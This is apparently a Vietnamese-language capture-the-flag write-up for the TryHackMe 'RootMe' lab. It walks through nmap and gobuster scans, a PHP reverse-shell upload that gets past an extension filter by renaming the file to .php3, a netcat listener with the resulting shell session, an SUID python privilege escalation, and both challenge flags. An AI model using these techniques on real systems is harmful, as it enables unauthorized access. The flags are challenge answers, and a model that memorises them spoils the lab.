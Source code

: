 # RootMe

## Deploy the machine
> No answer needed

========================================================================================================

Những câu ở task 2 thì chỉ cần **nmap** phát là nó ra hết à...

Đây là kết quả sau khi nmap máy mục tiêu
```c
└─$ cat scan_result     
# Nmap 7.94 scan initiated Mon Oct 16 21:56:44 2023 as: nmap -sC -sV -oN nmap/scan_result 10.10.36.56
Nmap scan report for 10.10.36.56
Host is up (0.28s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HackIT - Home
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Oct 16 21:57:34 2023 -- 1 IP address (1 host up) scanned in 49.66 seconds
```
## Scan the machine, how many ports are open?
> 2
## What version of Apache is running?
> 2.4.29
## What service is running on port 22?
> ssh
## Find directories on the web server using the GoBuster tool.
> No answer needed
## What is the hidden directory?
 Với file ẩn thì dùng GoBuster để tìm

    gobuster dir -w /usr/share/wordlists/dirb/common.txt 10.10.185.22

 Và đây là kết quả:
 ```c
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.185.22
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/css                  (Status: 301) [Size: 310] [--> http://10.10.185.22/css/]
/index.php            (Status: 200) [Size: 616]
/js                   (Status: 301) [Size: 309] [--> http://10.10.185.22/js/]
/panel                (Status: 301) [Size: 312] [--> http://10.10.185.22/panel/]
/server-status        (Status: 403) [Size: 277]
/uploads              (Status: 301) [Size: 314] [--> http://10.10.185.22/uploads/]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```
----------------------------------------------------------------

## Find a form to upload and get a reverse shell, and find the flag.
> Answer the questions below

Có vẻ như chúng ta cần chèn 1 cái reverse shell vào trang web này để lấy flag, trùng hợp là ở **/panel** ta có thể upload file lên.

![img/image1.png](img/image1.png)

Sau đó tìm kiếm 1 cái reverse shell php trên github rồi tải về https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

Thử upload nó lên nhưng tác giả đã chặn không cho upload file php, tuy nhiên với file php, đuôi php không phải là đuôi file duy nhất:)) , thử đổi tên file reverse shell thành đuôi .php3, sau đó thử upload lên và kết quả là đã thành công.

Sau đó mở file này ở bên **/uploads** đồng thời ở terminal cũng dùng:
```c
nc -lvp 9999
``` 
Cái này mục đích để lắng nghe các kết nối có cổng 9999, khi chạy file reverse bên máy chủ và đặt cổng của trong reverse shell file là 9999.

```
└─$ nc -lvp 9999
listening on [any] 9999 ...
10.10.231.195: inverse host lookup failed: Unknown host
connect to [10.18.36.52] from (UNKNOWN) [10.10.231.195] 51950
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 08:55:35 up 39 min,  0 users,  load average: 0.00, 0.00, 0.07
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

Giờ thì chúng ta đã chui vào được trong trang web, giờ thì tìm file user.txt thôi. Nếu rảnh thì cũng có thể tìm trong từng thư mục:)) hoặc nếu không rảnh thì có thể dùng:
```
$ find / -name user.txt -type f 2>/dev/null    
/var/www/user.txt
$ cat /var/www/user.txt
THM{y0u_g0t_a_sh3ll}
```
Hể ưe go đây là flag đầu tiên!

## Privilege Escalation
### Answer the questions below

Find a form to escalate your privileges.
> No answer needed

root.txt
> No answer needed

Welp đề bài có nói về quyền SUID, quyền này đơn giản thì file nào có quyền này sẽ được chạy với quyền ROOT, nên có thể khai thác được, để kiểm tra quyền SUID:
```c
   find / -perm -u=s -type f 2>/dev/null
```

Sau khi search, có một thứ khá là lạ có quyền SUID
![img/image2.png](img/image2.png)

### Search for files with SUID permission, which file is weird?
> /usr/bin/python

Để xác nhận, có một trang web khá hay ho để kiểm tra các lỗ hổng https://gtfobins.github.io/

Sau khi tìm kiếm thì ta có được đoạn script này để khai thác lỗ hổng và leo thang đặc quyền

![img/image3.png](img/image3.png)

Chạy nốt câu lệnh và ta đã truy cập được với quyền root, giờ vào **/root** để lấy flag cuối cùng thôi.
### root.txt
> THM{pr1v1l3g3_3sc4l4t10n}



